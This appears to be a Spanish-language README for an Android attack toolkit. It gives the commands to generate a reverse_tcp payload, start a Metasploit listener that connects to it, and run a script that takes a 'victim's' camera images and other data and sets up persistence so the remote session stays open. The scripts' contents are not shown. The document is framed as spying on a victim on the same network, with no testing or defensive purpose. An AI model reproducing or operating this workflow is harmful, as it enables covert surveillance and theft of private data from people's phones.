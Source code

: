 # 1. Genear el payload

Para ello utilizamos el comando

```shell
sudo bash payload.sh
```

Este comando ejecutara un script encargado de generar un payload con reverse_tcp para un android, por defeto utiliza hostname -I, y para el puerto 4444, pero se puede modificar o en el caso de no ser compatible, utilizando el parametro -ip para el host y -port para el puerto ej:

```shell
sudo bash payload.sh -ip 10.2.5.80 -port 4443
```

Ten en cuenta que se puede poner solo uno de ellos o ninguno.

# 2. Configuración inicial metasploid framework

> [IMPORTANT] Asegúrate de estar conectado a la misma red que la víctima antes de ejecutar el exploit.

Una vez todo este en ordenn utilizaremos el siguiente comando

```shell
sudo bash loc_and.sh
```

Este comando ejecutara msfconsole, descargandolo en el caso de que no este instalado y realizará todo lo necesario para enlazarse con el payload previamente creado, tambien podemos al iguel que anteriormente asiganrle una ip o un porto con -ip -port respectivamente, por defecto el puerto es 4444 y el host es hostname -I

# 3. Una vez conectados obtener datos

Una vez conectados podemos hacer todo lo que desehemos pero este pack incluye una forma rapida mediante un script de poder descargarnos toda la información que deseemos de nuestra "victima" envie todos las imagenes de su camara a el directorio /data
Tmabién generará un archivo de peristencia para que no cierre sesión en ningun momento, y que siempre que no se apage el dispositivo y permaneza en la misma red se esté conectado.

```shell
sudo bash get.sh -u $USER
```
